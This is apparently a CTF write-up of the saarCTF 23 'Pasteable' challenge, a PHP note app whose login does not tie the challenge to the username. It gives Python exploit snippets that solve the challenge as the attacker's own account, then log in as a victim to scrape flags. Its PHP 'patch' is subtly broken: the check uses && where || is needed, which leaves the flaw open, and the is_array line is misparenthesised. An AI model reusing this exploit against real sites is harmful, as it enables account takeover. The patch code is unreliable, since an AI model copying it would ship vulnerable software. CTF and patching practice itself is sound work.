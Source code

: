 +++
author = "Matteo Golinelli & Michele Grisafi"
title = "[saarCTF 23] Pasteable Writeup"
date = "2023-11-20"
description = "Writeup for the Pasteable challenge of the saarCTF 23"
tags = [
    "writeup",
    "ctf",
    "web"
]
+++

## Challenge Description

The challenge was a web application that allowed users to create and share password-protected notes. The application is written in PHP and uses a MySQL database to store the notes.

When creating a note, the user must enter a title, some content, and a password that is used to encrypt the note. The note is then stored in the database and the user is given a link to share the note with others. When opening the link, the user is asked to enter the password to decrypt the note. The link is composed of an ID and a checksum:
`http://host:port/reveal/?id=<ID>&checksum=<CHECKSUM>`

The ID is computed using the PHP [`uniqid()`](https://www.php.net/manual/en/function.uniqid.php) function. The documentation states that "This function does not generate cryptographically secure values, and must not be used for cryptographic purposes, or purposes that require returned values to be unguessable.".

Even if an attacker can guess the ID of a note of another user, they cannot read the content without its password. Nevertheless, we replaced this unsafe function with [`random_int()`](https://www.php.net/manual/en/function.random-int.php)

A registered user can read the content of its notes without entering the password.

## Vulnerability

The functionalities of the web application are restricted to logged in users. The registration and login processes are handled by the same form and are both composed of two separated steps:

1. **Crypto challenge**:
    In this first step, independently on whether the user is registering or signin into an existing account, the client will send the username to the `/func/challenge.php` endpoint. This server checks whether the user is already registered and, in this case, it:

   1. Generates the **challenge**: a weak 6 characters random string.
   2. Stores the challenge in the PHP `$_SESSION` variable, that is persistent across different HTTP requests.
   3. Sends the challenge encrypted with the user password (fetched from the database) in the HTTP response.

    If the user is not yet registered (i.e., not found in the database), the server sends an HTTP response the string "**ok**" as body.

2. **Login and registration**:
    Depending on the server response, the client (i.e., the JavaScript `submitLogin()` function) will either try to sign up or sign in the user.

    - To **register** a new user, it sends the *username* and the *hash of the password* to the `func/registration.php` endpoint, that stores it in the database.
    - To **log in** an existing user, the client receives the challenge and tries to solve it by using the password entered by the user. Once the solution has been computed, it sends it to the `/func/login.php` endpoint, together with the username. The **vulnerability** lays in this login process. Specifically, the server does not check that the username that it receives is the same as the one for which the challenge was generated, but only checks that a username and a solution are included in the request. If the solution is equal to the one that was stored in the `$_SESSION` variable in *step 1*, then it logs the provided username in.

## Exploitation

Exploiting the vulnerability is conceptually easy: an attacker registers a user, solves the login challenge using its password, abd sends the solution together with a different username that it wants hijack. The server receives the solution, checks whether it is correct, and logs the received username in.

### Exploit

The game server places the flags in the web application by registering a user and storing the flag in a note. The name of the registered users are the flag IDs that could be found by requesting the URL <https://scoreboard.ctf.saarland/attack.json>.

For each target machine, we first download the list of flag IDs. Then, we **register a user** on the target we application by directly sending the username and the hashed password to the registration endpoint.

```python
pass_hash = hashlib.sha256("OurSecretPassword!".encode('utf-8')).hexdigest()
register_response = browser.post(register_url, data={"username": my_username, "password": pass_hash})
```

*Note*: to make our registration unrecognizable from those made by the game server, we use a randomly selected flag ID from another target as the username.

Then, for each flag ID of the target (i.e., username):

1. We send a login request to the target application with the username that we registered and receive a **challenge**.

2. We solve the challenge using the password of our registered user to get the **solution**.

    ```python
    challenge_response = browser.post(challenge_url, data={"username": my_username})
    challenge = challenge_response.text

    key = bytes.fromhex(pass_hash)
    iv = bytes.fromhex(pass_hash[:32])
    ciphertext = bytes.fromhex(challenge)

    cipher = AES.new(key, AES.MODE_CBC, iv)
    decrypted_bytes = cipher.decrypt(ciphertext)

    solution = decrypted_bytes.decode('utf-8', 'ignore').strip()
    ```

3. We send the solution to the target application, setting as username the flag ID that we want to retrieve.

    ```python
    login_response = browser.post(login_url, data={"username": flag_ID, "solution": solution})
    ```

4. We visit the homepage of the application that shows all the notes of the logged user. The flag is in the content of the note. We use BeautifulSoup to parse the page and extract the flag.

    ```python
    soup = BeautifulSoup(homepage_response.text, 'html.parser')
    flag = soup.find("p", class_="card-text").text
    ```

## Patch

To properly patch the login process without modifying the APIs and the client-side code (as the game server directly performed the requests to the endpoints), we modified the code on the server-side.

First, we bound the challenge to the username (i.e., the challenge owner) by storing the **username** into a separate PHP `$_SESSION` variable:

```php
$_SESSION['challenge'] = $random_string;
$_SESSION["username"] = $username;
```

Upon login, the server will check that both the challenge solution and the received username are the same as the ones saved in the `$_SESSION` variable during the first step:

```php
if (
        (strcmp($_POST['solution'], $_SESSION['challenge']) != 0) &&
        (strcmp($_POST['username'], $_SESSION['username']) != 0)
    ) {
    header('HTTP/1.0 403 Forbidden');
    die("Invalid request");
}
```

Moreover, we changed the challenge function to use a cryptographically stronger random number generator and a longer string.

Finally, we check that `$_POST['solution']` and `$_POST['username']` are not arrays, because on our traffic analyzed we saw that some attacking teams were stealing our flags by sending an array as username and solution. The patch effectively stopped this attack, but we did not investigate this issue further.

```php
if(is_array($_POST['username'] || is_array($_POST['solution'])){
    header('HTTP/1.0 403 Forbidden');
    die("Invalid request");
}
```
